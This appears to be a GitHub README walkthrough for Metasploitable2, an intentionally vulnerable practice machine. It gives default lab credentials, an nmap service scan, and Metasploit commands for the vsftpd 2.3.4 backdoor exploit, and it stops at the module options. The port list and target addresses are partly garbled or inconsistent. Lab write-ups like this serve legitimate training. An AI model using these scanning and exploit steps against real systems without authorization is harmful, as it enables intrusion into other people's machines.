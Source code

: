 # Metasploitable2-Walk-through

### download the machine from https://www.vulnhub.com/entry/metasploitable-2,29/  
then launch using VMware credentials are msfadmin:msfadmin
ip a to get machine 

Notes :
----

make sure your system is upgraded           
sudo apt update && sudo apt upgrade                 
sudo apt install exploitdb 


scan the target using nmap 
--
Nmap -sV -Sc 192.168.1.9

found some open ports (21 -22--25-53-80-111,139-445-1009,514,1099,15243306-5430-8009)
 
  
now lets walkthrough each port and see what we can do (separately and combined):
----

PORT  ::  STATE  ::  SERVICE ::  VERSIO
  
21/tcp :: open :: ftp ::   vsftpd 2.3.4  
  ----
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

no files to surf

MSF search for  vsftpd 2.3.4 , there are a back door vuln , 

msf > use exploit/unix/ftp/vsftpd_234_backdoor

msf exploit(vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

 Name Current Setting Required Description
 
 ---- --------------- -------- -----------
 
 RHOST 192.168.0.14 yes The target address
 
 RPORT 21 yes The target port
 
Payload options (cmd/unix/interact):

 Name Current Setting Required Description
 
Exploit target:

 Id Name
  
 0 Automatic
 